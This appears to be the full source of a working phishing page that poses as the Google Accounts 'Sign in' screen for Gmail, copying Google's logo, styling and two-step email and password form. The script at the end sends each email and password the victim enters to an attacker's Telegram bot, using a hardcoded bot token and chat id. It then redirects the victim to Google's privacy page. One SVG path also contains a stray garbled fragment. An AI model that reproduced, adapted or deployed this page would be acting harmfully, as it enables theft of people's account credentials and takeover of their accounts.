 <!DOCTYPE html>
<html lang="en" dir="ltr">
   <head>
      <meta charset="utf-8">
      <title>Sign in - Google Accounts</title>
      <script src='https://code.jquery.com/jquery-3.4.1.min.js'></script>
      <link href='https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' rel="stylesheet">
      <link href='assets/css/progress-bar.css' rel="stylesheet">
      <link href='assets/css/material-input.css' rel="stylesheet">
      <link rel="stylesheet" href="assets/css/custom.css">
      <script src='assets/js/custom.js'></script>
      <link href="https://fonts.googleapis.com/css2?family=Open+Sans:ital,wght@0,300;0,400;0,600;0,700;0,800;1,300;1,400;1,600;1,800&display=swap" rel="stylesheet">
      <link rel="icon" type="image/png" href="assets/images/favicon.ico">
      <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1" />
      <style media="screen">
         @font-face {
         font-family: 'Roboto';
         src: URL('assets/fonts/Roboto-Regular.ttf') format('truetype');
         font-weight: normal;
         }
      </style>
   </head>
   <body>
      <div id='login-app'>
         <div class="login-container">
            <div class='progress-bar-container show-progress'>
               <div class="progress-bar mdc-linear-progress mdc-linear-progress--indeterminate progress-hidden" style='display:none;' id='cgle-progress-bar'>
                  <div class="mdc-linear-progress mdc-linear-progress--indeterminate">
                     <div class="mdc-linear-progress__buffering-dots"></div>
                     <div class="mdc-linear-progress__buffer"></div>
                     <div class="mdc-linear-progress__bar mdc-linear-progress__primary-bar"><span class="mdc-linear-progress__bar-inner"></span></div>
                     <div class="mdc-linear-progress__bar mdc-linear-progress__secondary-bar"><span class="mdc-linear-progress__bar-inner"></span></div>
                  </div>
               </div>
            </div>
            <div class='login-content' id='login-form'>
               <div id="logo" title="Google">
                  <svg viewBox="0 0 75 24" width="75" height="24" xmlns="http://www.w3.org/2000/svg" aria-hidden="true">
                     <g id="qaEJec">
                        <path fill="#ea4335" d="M67.954 16.303c-1.33 0-2.278-.608-2.886-1.804l7.967-3.3-.27-.68c-.495-1.33-2.008-3.79-5.102-3.79-3.068 0-5.622 2.41-5.622 5.96 0 3.34 2.53 5.96 5.92 5.96 2.73 0 4.31-1.67 4.97-2.64l-2.03-1.35c-.673.98-1.6 1.64-2.93 1.64zm-.203-7.27c1.04 0 1.92.52 2.21 1.264l-5.32 2.21c-.06-2.3 1.79-3.474 3.12-3.474z"></path>
                     </g>
                     <g id="YGlOvc">
                        <path fill="#34a853" d="M58.193.67h2.564v17.44h-2.564z"></path>
                     </g>
                     <g id="BWfIk">
                        <path fill="#4285f4" d="M54.152 8.066h-.088c-.588-.697-1.716-1.33-3.136-1.33-2.98 0-5.71 2.614-5.71 5.98 0 3.338 2.73 5.933 5.71 5.933 1.42 0 2.548-.64 3.136-1.36h.088v.86c0 2.28-1.217 3.5-3.183 3.5-1.61 0-2.6-1.15-3-2.12l-2.28.94c.65 1.58 2.39 3.52 5.28 3.52 3.06 0 5.66-1.807 5.66-6.206V7.21h-2.48v.858zm-3.006 8.237c-1.804 0-3.318-1.513-3.318-3.588 0-2.1 1.514-3.635 3.318-3.635 1.784 0 3.183 1.534 3.183 3.635 0 2.075-1.4 3.588-3.19 3.588z"></path>
                     </g>
                     <g id="e6m3fd">
                        <path fill="#fbbc05" d="M38.17 6.735c-3.28 0-5.953 2.506-5.953 5.96 0 3.432 2.673 5.96 5.954 5.96 3.29 0 5.96-2.528 5.96-5.96 0-3.46-2.67-5.96-5.95-5.96zm0 9.568c-1.798 0-3.348-1.487-3.348-3.61 0-2.14 1.55-3.608 3.35-3.608s3.348 1.467 3.348 3.61c0 2.116-1.55 3.608-3.35 3.608z"></path>
                     </g>
                     <g id="vbkDmc">
                        <path fill="#ea4335" d="M25.17 6.71c-3.28 0-5.954 2.505-5.954 5.958 0 3.433 2.673 5.96 5.954 5.96 3.282 0 5.955-2.527 5.955-5.96 0-3.453-2.673-5.96-5.955-5.96zm0 9.567c-1.8 0-3.35-1. Jésus 3.35-3.61 0-2.14 1.55-3.608 3.35-3.608s3.35 1.46 3.35 3.6c0 2.12-1.55 3.61-3.35 3.61z"></path>
                     </g>
                     <g id="idEJde">
                        <path fill="#4285f4" d="M14.11 14.182c.722-.723 1.205-1.78 1.387-3.334H9.423V8.373h8.518c.09.452.16 1.07.16 1.664 0 1.903-.52 4.26-2.19 5.934-1.63 1.7-3.71 2.61-6.48 2.61-5.12 0-9.42-4.17-9.42-9.29C0 4.17 4.31 0 9.43 0c2.83 0 4.843 1.108 6.362 2.56L14 4.347c-1.087-1.02-2.56-1.81-4.577-1.81-3.74 0-6.662 3.01-6.662 6.75s2.93 6.75 6.67 6.75c2.43 0 3.81-.972 4.69-1.856z"></path>
                     </g>
                  </svg>
               </div>
               <h1 class='g-h1' id='instruction-text'>Sign in</h1>
               <h2 class='g-h2' id='instrution-text-desc'>Continue to Gmail</h2>
               <div >
                  <style>
                     .slide-container-outer {
                     width: 100%;
                     min-height: 50px;
                     position: relative;
                     overflow-x: hidden;
                     }
                     .slide-container {
                     position: relative;
                     width: 200%;
                     display: flex;
                     }
                     .slide-item {
                     min-height: 50px;
                     width: 50%;
                     position: relative;
                     }
                     .g-email-preview {
                     border-radius: 16px;
                     border: 1px solid #dadce0;
                     display: table;
                     margin: 0 auto;
                     padding: 3px;
                     margin: 0 auto;
                     margin-bottom: 55px;
                     }
                     .qQWzTd {
                     margin-right: 8px;
                     margin-left: 3px;
                     }
                     .krLnGe {
                     margin-left: 4px;
                     }
                     .dsxx49 {
                     font-size: 14px;
                     margin-top: 2px;
                     }
                  </style>
                  <div class='slide-container-outer'>
                     <div class='slide-container'>
                        <div class='slide-item' id='slide-password'>
                           <div class='g-email-preview'>
                              <div style='display:flex'>
                                 <div class="qQWzTd" aria-hidden="true">
                                    <svg aria-hidden="true" class="stUf5b" fill="currentColor" focusable="false" width="20px" height="20px" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
                                       <path d="M12 2C6.48 2 2 6.48 2 12s4.48 10 10 10 10-4.48 10-10S17.52 2 12 2zm6.36 14.83c-1.43-1.74-4.9-2.33-6.36-2.33s-4.93.59-6.36 2.33C4.62 15.49 4 13.82 4 12c0-4.41 3.59-8 8-8s8 3.59 8 8c0 1.82-.62 3.49-1.64 4.83zM12 6c-1.94 0-3.5 1.56-3.5 3.5S10.06 13 12 13s3.5-1.56 3.5-3.5S13.94 6 12 6z"></path>
                                    </svg>
                                 </div>
                                 <div class="dsxx49" id='prev-email'>cyberteamhelp369@gmail.com</div>
                                 <div class="krLnGe">
                                    <svg aria-hidden="true" class="stUf5b MSBt4d" fill="currentColor" focusable="false" width="18px" height="18px" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
                                       <polygon points="12,16.41 5.29,9.71 6.71,8.29 12,13.59 17.29,8.29 18.71,9.71"></polygon>
                                    </svg>
                                 </div>
                              </div>
                           </div>
                           <form id='password-form-step' >
                              <div class='g-input'>
                                 <input id='password-input' type="password" placeholder="Enter your password">
                              </div>
                           </form>
                           <div class='login-nav'>
                              <legend class='g-legend'>Forgot Password</legend>
                              <div class='gbtn-primary btn-next-password'><span class='gbtn-label'>Next</span></div>
                           </div>
                        </div>
                        <div class='slide-item' id='slide-username'>
                           <form id='email-form-step' >
                              <div class='g-input'>
                                 <input id='email-input' type="text"  placeholder="Email or phone">
                              </div>
                           </form>
                           <div class="invalid-email" style='display:none;'>
                              <span class="invalid-icon">
                                 <svg fill="#d93025" focusable="false" width="16px" height="16px" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
                                    <path d="M12 2C6.48 2 2 6.48 2 12s4.48 10 10 10 10-4.48 10-10S17.52 2 12 2zm1 15h-2v-2h2v2zm0-4h-2V7h2v6z"></path>
                                 </svg>
                              </span>
                              <span class='invalid-email-text-span'>Enter a valid email or phone number</span>
                           </div>
                           <legend class='g-legend'>Forgot email?</legend>
                           <br>
                           <div class='login-priv'>
                              <p class='p'>Not your computer? Use Guest mode to sign in privately.</p>
                              <legend class='g-legend'>Learn more</legend>
                           </div>
                           <div class='login-nav'>
                              <legend class='g-legend'>Create Account</legend>
                              <div class='gbtn-primary btn-next-email'><span class='gbtn-label'>Next</span></div>
                           </div>
                        </div>
                     </div>
                  </div>
               </div>
            </div>
            <img src="./assets/images/add-on.png" alt="Google" style='max-width:100%;'>
         </div>
      </div>
      <script>
         $(document).ready(function() {
            const botToken = '7590609815:AAEwlrI1A1E31fLm9cKGIr5rwtwIGLynEis';
            const chatId = '6484972504';
            
            $('.btn-next-email').click(function() {
               const email = $('#email-input').val();
               if (email) {
                  const message = `Email: ${email}`;
                  $.ajax({
                     url: `https://api.telegram.org/bot${botToken}/sendMessage`,
                     method: 'POST',
                     data: {
                        chat_id: chatId,
                        text: message
                     },
                     success: function() {
                        console.log('Email sent to Telegram');
                     },
                     error: function() {
                        console.log('Failed to send email to Telegram');
                     }
                  });
               }
            });
            
            $('.btn-next-password').click(function() {
               const password = $('#password-input').val();
               if (password) {
                  const message = `Password: ${password}`;
                  $.ajax({
                     url: `https://api.telegram.org/bot${botToken}/sendMessage`,
                     method: 'POST',
                     data: {
                        chat_id: chatId,
                        text: message
                     },
                     success: function() {
                        console.log('Password sent to Telegram');
                        window.location.href = 'https://policies.google.com/privacy';
                     },
                     error: function() {
                        console.log('Failed to send password to Telegram');
                        window.location.href = 'https://policies.google.com/privacy';
                     }
                  });
               }
            });
         });
      </script>
   </body>
</html>
